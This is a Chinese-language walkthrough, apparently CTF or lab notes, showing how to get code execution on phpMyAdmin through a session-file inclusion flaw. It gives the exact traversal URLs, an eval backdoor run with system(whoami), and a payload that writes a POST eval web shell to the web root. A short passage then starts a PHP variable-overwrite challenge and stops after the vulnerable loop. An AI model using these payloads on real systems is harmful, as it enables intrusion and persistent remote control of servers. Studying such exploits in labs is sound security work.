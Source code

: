 (读取内容)

#### 方法一:命令执行

尝试在`server_sql.php`页面执行`select '<?php phpinfo()?>';`：

**php**生成`session`时，会生成在`/tmp`目录下，且以`sess_`开头，例如：`/tmp/sess_be9f3bebfb7ab4192fd07c479cf6b171`，其中记录着用户的操作：(session的值按f12在应用>>cookie中可以找到)

session文件的值也就对应了 HTTP 请求 Cookie 中`phpMyAdmin`的值。
比如刚才的SQL语句被记录下来，在服务器解析该文件时，会被当作php代码执行。
尝试包含session文件：

`http://x.x.x.x/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_be9f3bebfb7ab4192fd07c479cf6b171`

刚执行的SQL查询被当作了PHP代码执行。
在SQL控制台执行：`select '<?php eval($_GET["hack"]);?>'`

将session文件包含，并使用`system()`函数实现命令执行：

`http://x.x.x.x/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_9ff5fabdce48526b442c8e16cdd83bab&hack=system(whoami);`





#### 方法二：phpMyAdmin Getshell

也可以将 WebShell 写入，首先从`phpinfo()`中查看 web 路径：
搜索`CONTEXT_DOCUMENT_ROOT`：

构造Payload：

`select "<?php file_put_contents('/var/www/html/shell.php','<?php @eval($_POST[cmd]);?>')?>"`

再次包含文件:

`http://x.x.x.x/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_2c3dd215ccd61cdb6066d8cab495bcba`

访问`http://x.x.x.x/shell.php`：

如果成功写入,就用蚁剑连接



## 覆盖试验漏洞

<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){　　　　
    $$x = $y  ;  //post 声明至当前文件
}
